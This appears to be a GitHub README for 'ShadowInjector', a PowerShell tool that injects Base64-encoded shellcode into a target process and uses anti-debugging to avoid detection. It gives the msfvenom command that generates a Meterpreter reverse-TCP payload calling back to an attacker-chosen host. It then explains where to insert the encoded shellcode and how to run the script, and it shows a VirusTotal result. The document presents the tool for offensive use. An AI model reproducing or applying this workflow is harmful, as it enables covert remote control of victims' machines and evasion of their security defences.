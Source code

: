 # ShadowInjector
A sophisticated PowerShell script that stealthily injects Base64-encoded shellcode into the target process, featuring anti-debugging techniques to evade detection.



## Running the Script
You can create the malicious payload as follows.

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=local_ip LPORT=local_port -f csharp

![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/Creating%20a%20payload.png)

Perform the encode process by pasting the created shellcode into the "# shellcode will be written here" section.



Add the base64 encoded payload to the "add_shell_code_here" section of the script.

To run the script, open a PowerShell window and execute the following command:

.\ShadowInjector.ps1
![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/Run%20Script.png)

![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/Listening.png)

## Virustotal Result
![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/virustotal.png)


